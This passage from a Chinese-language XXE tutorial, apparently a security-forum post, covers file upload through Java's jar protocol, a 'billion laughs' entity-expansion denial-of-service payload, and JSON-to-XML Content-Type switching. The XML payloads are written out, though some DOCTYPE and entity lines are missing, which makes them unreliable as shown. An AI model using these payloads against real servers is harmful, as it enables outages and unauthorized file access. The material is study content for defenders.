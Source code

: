 1.7、文件上传
--------

我们前面说过Java环境下支持jar协议，jar 能从远程获取 jar 文件，然后将其中的内容进行解压

jar 协议处理文件的过程：

(1) 下载 jar/zip 文件到临时文件中  
(2) 提取出我们指定的文件  
(3) 删除临时文件

```php
<?xml version="1.0" encoding="utf-8"?> 

]>

<user><username>&remote;</username><password>1</password></user>
```

200上传成功

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-de61d351c060ca75a5800bcc1e61ab83aad9283c.png)

如何找到上传的地址呢，使用一个不存在的文件就能报错显示路径了

![image.png](https://shs3.b.qianxin.com/attack_forum/2023/11/attach-d0979e8dfb12040732dea2590e72d3d05e39553f.png)

具体利用方式还未想到。

1.8、DOS攻击
---------

```php
<?xml version="1.0"?>

 <!ELEMENT lolz (#PCDATA)>
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

1.9、JSON转换成XML攻击
----------------

通常，在Web应用中，客户端通过POST请求向服务器发送数据时，会使用Content-Type头来指明数据的格式，如application/json表示JSON格式，application/xml表示XML格式。

如果攻击者尝试将Content-Type头从合法的格式（如application/json）更改为其他格式（如application/xml），并且服务器未正确实施解析和验证机制，那么攻击者可能会成功地向服务器注入恶意数据。
